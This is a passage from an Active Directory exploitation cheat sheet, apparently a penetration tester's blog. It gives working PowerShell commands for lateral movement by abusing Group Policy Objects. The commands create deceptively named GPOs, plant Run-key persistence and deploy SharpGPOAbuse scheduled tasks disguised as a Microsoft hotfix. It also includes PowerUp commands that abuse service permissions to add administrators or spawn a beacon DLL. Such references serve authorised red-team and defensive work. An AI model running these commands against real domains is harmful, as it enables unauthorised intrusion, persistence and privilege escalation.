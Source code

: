 Bash

#### Abusing Group Policy Objects for lateral movement <a href="#abusing-group-policy-objects-for-lateral-movement" id="abusing-group-policy-objects-for-lateral-movement"></a>

If we identify that we have the permissions to edit and link new Group Policy Objects (GPOs) within the domain (refer to [‘AD Enumeration With PowerView’](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#ad-enumeration-with-powerview)), we can abuse these privileges to move laterally towards other machines.

As an example, we can use the legitimate [Remote System Administration Tools](https://docs.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) (RSAT) for Windows to create a new GPO, link it to the target, and deploy a registry runkey to add a command that will run automatically the next time the machine boots.

```powershell
# Create a new GPO and link it to the target server
New-GPO -Name 'Totally Legit GPO' | New-GPLink -Target 'OU=TargetComputer,OU=Workstations,DC=TargetDomain,DC=com'

# Link an existing GPO to another target server
New-GPLink -Target 'OU=TargetComputer2,OU=Workstations,DC=TargetDomain,DC=com' -Name 'Totally Legit GPO'

# Deploy a registry runkey via the GPO
Set-GPPrefRegistryValue -Name 'Totally Legit GPO' -Context Computer -Action Create -Key 'HKLM\Software\Microsoft\Windows\CurrentVersion\Run' -ValueName 'Updater' -Value 'cmd.exe /c calc.exe' -Type ExpandString
```

PowerShell

We can also use [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) to deploy an immediate scheduled task, which will run whenever the group policy is refreshed (every 1-2 hours by default). SharpGPOABuse does not create its own GPO objects, so we first have to run the commands for creating and linking GPOs listed above. After this, we can run SharpGPOAbuse to deploy the immediate task.

```powershell
SharpGPOAbuse.exe --AddComputerTask --TaskName "Microsoft LEGITIMATE Hotfix" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c start calc.exe" --GPOName "Totally Legit GPO"
```

PowerShell

### Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

For more things to look for (both Windows and Linux), refer to my [OSCP cheat sheet and command reference](https://cas.vancooten.com/posts/2020/05/oscp-cheat-sheet-and-command-reference/).

#### PowerUp <a href="#powerup" id="powerup"></a>

```powershell
# Check for vulnerable programs and configs
Invoke-AllChecks

# Exploit vulnerable service permissions (does not require touching disk)
Invoke-ServiceAbuse -Name "VulnerableSvc" -Command "net localgroup Administrators DOMAIN\user /add"

# Exploit an unquoted service path vulnerability to spawn a beacon
Write-ServiceBinary -Name 'VulnerableSvc' -Command 'c:\windows\system32\rundll32 c:\Users\Public\beacon.dll,Update' -Path 'C:\Program Files\VulnerableSvc'

# Restart the service to exploit (not always required)
net.exe stop VulnerableSvc
net.exe start VulnerableSvc
```
